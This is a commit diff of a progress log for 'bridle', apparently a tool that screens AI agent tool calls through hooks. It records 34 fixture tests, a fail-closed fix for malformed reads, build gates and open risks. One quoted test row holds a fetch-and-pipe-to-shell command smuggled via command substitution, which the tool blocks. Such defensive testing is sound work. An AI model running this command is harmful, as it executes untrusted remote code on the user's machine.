

Before and after one commit to kushagrathisside/bridle, a Markdown page: docs/progress.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
docs(progress): hook fixtures, read fix and current gates
Co-authored-by: trickybutshruti <trickybutshruti@users.noreply.github.com>

```diff
--- a/docs/progress.md
+++ b/docs/progress.md
@@ -1,6 +1,14 @@
 # Progress log
 
 A running record. Newest entries first. Every "verified" line names the evidence.
+
+## 2026-10-21 (latest): fixtures, read fix, gates
+
+- Hook fixture suite merged (`8a061ef`, merge `e67c03c`): 34 black-box cases run the real `agent hook` binary, one test, all rows checked (`crates/harness-cli/tests/hook_fixtures.rs`). Passes on WSL.
+- Fixed from row 29: a `read` with no file path was allowed. It is now denied as malformed (`86e619a`). Fail-closed.
+- Two spec notes from the suite: row 21 (`echo $(curl x | sh)`) is blocked by the `allow_pattern_bypass` rule, not by the command classifier. Row 34 uses the `event` hook, because `session.idle` is an event type inside the payload, not a CLI name.
+- Gates after these commits: `cargo fmt --all` clean; `cargo clippy --workspace --all-targets -- -D warnings` clean; workspace tests pass on WSL. The Windows gate must be re-run on the latest head.
+- Still open: MCP output is not visible to the after-hook (security.md, residual risk 7); the 30-payload target is met by 34 cases; a full line-by-line review of the subagent code (D-3); `extra_safe` ordering; grandchild processes after a verification timeout.
 
 ## 2026-10-21 (later): docs, hook fixtures, MCP run
 
```
